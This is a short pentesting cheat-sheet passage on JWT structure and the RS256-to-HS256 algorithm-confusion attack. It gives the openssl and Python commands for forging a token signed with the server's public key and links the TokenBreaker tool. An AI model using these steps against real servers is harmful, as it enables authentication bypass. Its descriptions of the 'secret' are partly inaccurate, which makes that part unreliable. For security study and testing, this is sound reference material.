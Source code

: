 The basic structure of a JWT contains three parts

```
1- header : an example of how the header looks like:
{"typ":"JWT","alg":"RS256"}.
2- payload
3- secret
```

The secret is only known to the server, and is used to make sure that data wasn't changed along the way. Everything is then base64 encoded. Example JWT is below

```
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"
```

JWTs are most often encountered as cookies.

#### Exploitation methods

**Changing the algorithm with server public key**

**Manually**

This method works when we have the public key of the server which means we can change the algorithm in the header from \[RS256] into \[HS256 ] and use the public key to sign a new secret then encode the token back into base64. 1- Firstly, we change the algorithm in the header using the site below

```
https://jwt.io/
```

2- Using the public key of the server we convert it to hex

```
cat key.pub | xxd -p | tr -d "\\n"
```

3- Next We use openssl to sign the hex key from above into a valid HS256 key

```
echo "header.payload" | openssl dgst -sha256 -mac HMAC -macopt hexkey:(public-key-in-hex)
```

The above command takes the JWT's header and payload in base64 and sign them with the public key (insert the hex format from step 2) 4- Lastly we decode the hex into binary and back to base64 with python to calculate the secret.

```python
python -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('key-from-step-4')).replace('=','')\")"
```

This will give you the secret key in base64 so all you have to do is combine all JWT parts and send to the server to authenticate.

**With Tools**

Use TokenBreaker

```
git clone https://github.com/cyberblackhole/TokenBreaker
```

